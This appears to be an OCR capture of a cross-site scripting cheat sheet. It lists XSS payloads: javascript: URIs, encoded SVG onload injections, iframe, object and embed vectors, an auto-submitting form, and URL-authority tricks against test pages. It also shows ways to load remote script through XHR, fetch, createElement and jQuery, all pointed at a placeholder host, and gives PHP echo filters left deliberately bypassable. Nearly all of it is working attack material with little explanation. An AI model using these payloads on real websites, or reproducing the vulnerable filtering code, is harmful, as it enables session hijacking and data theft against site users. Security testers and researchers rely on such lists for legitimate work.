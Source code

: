 <a href=javascript:alert(1)>
Javascript:alert(1)

(URL-encoded form)
Javas%26%2399;ript:alert(1)

<iframe src=javascript:alert(1)>
http(s)://host/page?p=XSS
<object data=?p=%253Csvg/o%256Eload%253Dalert(1)%253E>
<embed src=?p=%253Csvg/o%256Eload%253Dalert(1)%253E>
<iframe src=?p=%26lt;svg/o%256Eload%26equals;alert(1)%26gt;>
"><iframe src="/tests/cors/%23/tests/auditor.php?q1=<img/src=x onerror=alert(1)"
%0aalert(1);/"><script>///
<form action="http://brutelogic.com.br/chall/minified.php" method="POST" enctype="multipart/form-data">
<textarea name=p id=p>"
alert(1)-/><script>///</textarea>
</form>
<script>document.forms[0].submit(); </script>
*//"><script>/*alert(1)//
</input/"><svg><script>alert(1)//

Calling Remote Script With Event Handlers

1 – XHR

"var x=new XMLHttpRequest();x.open('GET','//0');x.send();
x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"

2 – Fetch

fetch('//0').then(function(r){r.text().then(function(w){write(w)})})

3 – Create Element

with(top)body.appendChild (createElement('script')).src='//0'

4 – jQuery Get

$.get('//0',function(r){write(r)})>

5 – jQuery Get Script

$.getScript('//0')

The Easiest Way to Bypass XSS Mitigations

echo $_GET["p"];
echo str_replace(" ", "", $_GET["q"]);
echo $_GET["p"];
echo str_ireplace("<script", "", $_GET["q"]);
echo str_ireplace("<script","InvalidTag", $_GET["r"]);
echo str_ireplace("<script","<InvalidTag", $_GET["s"]);

XSS Authority Abuse

http://alert(1)@brutelogic.com.br/webgun/test.php?p=<svg+onload=eval(URL.slice(7,15))>
http://javascript:alert(1)@brutelogic.com.br/webgun/test.php?p=<svg+onload=location=URL.slice(7,26)>
